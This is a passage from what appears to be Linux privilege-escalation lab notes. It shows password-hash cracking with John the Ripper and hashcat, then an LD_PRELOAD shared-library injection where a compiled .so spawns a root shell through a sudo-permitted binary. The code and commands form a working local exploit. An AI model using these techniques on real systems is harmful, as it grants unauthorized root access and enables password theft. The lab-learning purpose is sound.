 ```bash
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
root             (root)     
1g 0:00:00:00 DONE 1/3 (2025-06-19 14:37) 14.28g/s 228.5p/s 228.5c/s 228.5C/s root..root4
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
root@ahmed:/usr/share/wordlists# 
```
decrypting the hash using hashcat
```bash
root@ahmed:/usr/share/wordlists# hashcat -a3 -m 1800 hash rockyou.txt 
```
### **8-Shared Library Injection**
#### Shared Library
- In Linux, a shared library (also known as a dynamic library or dynamic shared object, typically with a .so extension) is a file that contains code and data that can be loaded by multiple processes at runtime.
- Shared libraries allow code to be modular, reusable, and reduce memory usage, as multiple processes can use the same shared code.
#### Injection
- Shared library injection involves injecting a custom shared library into a running process to execute arbitrary code or manipulate the process's behavior.
- This technique can be used for various purposes, such as debugging, monitoring, or, in the context of privilege escalation, executing code with higher privileges.

```bash
student@target:~$ sudo -l
Matching Defaults entries for student on target:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User student may run the following commands on target:
    (root) NOPASSWD: /usr/sbin/apache2
student@target:~$ nano shell.c
bash: nano: command not found
student@target:~$ vim shell.c
student@target:~$ cat shell.c
#include <studio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
student@target:~$ gcc -fPIC -o shell.so shell.c -nostartfiles
shell.c: In function '_init':
shell.c:6:2: warning: implicit declaration of function 'setgid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
  setgid(0);
  ^~~~~~
  setenv
shell.c:7:2: warning: implicit declaration of function 'setuid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
  setuid(0);
  ^~~~~~
  setenv
/usr/bin/x86_64-linux-gnu-ld: warning: cannot find entry symbol _start; defaulting to 0000000000000420
```